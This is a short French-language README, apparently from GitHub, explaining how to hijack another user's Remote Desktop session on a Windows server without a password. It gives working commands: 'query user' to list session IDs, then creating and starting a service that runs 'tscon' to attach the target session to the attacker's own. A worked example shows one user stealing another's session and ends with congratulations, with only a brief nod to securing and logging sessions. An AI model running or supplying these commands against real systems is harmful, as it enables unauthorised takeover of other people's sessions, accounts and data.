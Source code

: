 # Hijack session pc distant avec la faille tscon

# tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

# query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

# service
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :
*<process_name> est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)
<user 2_ID> est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker
<session_name> est le nom de **votre** session*
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

# Exemple
commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](\res\Hijack session pc distant annexe.png)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto
*<process_name> = hijack (nom du service - le nom n'a pas d'importance)
<user 2_ID> = 8 (ID de la session-cible)
<session_name> = rdp-tcp#1 (nom de notre session actuelle)*
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```
